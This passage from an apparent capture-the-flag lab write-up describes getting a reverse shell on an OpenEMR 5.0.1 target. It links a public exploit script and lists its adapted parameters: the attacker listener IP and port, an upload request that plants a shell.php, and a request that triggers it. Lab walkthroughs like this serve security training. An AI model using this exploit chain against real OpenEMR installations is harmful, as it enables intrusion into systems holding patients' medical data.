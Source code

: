 ![openemrcalendar.png](images/openemrcalendar.png)

### 3.3- Remote Code Execution

Now, it's reverse shell time. We can use the exploit we just read. Of course, we have to adapt it a little bit.   

First, the last version is provided here : [https://github.com/musyoka101/OpenEMR-5.0.1-Remote-Code-execution-Vulnerability-Exploit/blob/master/openemr_exploit.py](https://github.com/musyoka101/OpenEMR-5.0.1-Remote-Code-execution-Vulnerability-Exploit/blob/master/openemr_exploit.py).

Then, we put our parameters and we read the code entirely to make sure everything is OK:   
- username = "openemr_admin"
- password = "xxxxxx"
- ip = '10.10.14.18'
- port = 9001
- url = "http://hms.htb/interface/main/main_screen.php?auth=login&site=default"
- resp = s.post("http://hms.htb/portal/import_template.php?site=default", data = payload)
- rev_shell = s.get("http://hms.htb/portal/shell.php")
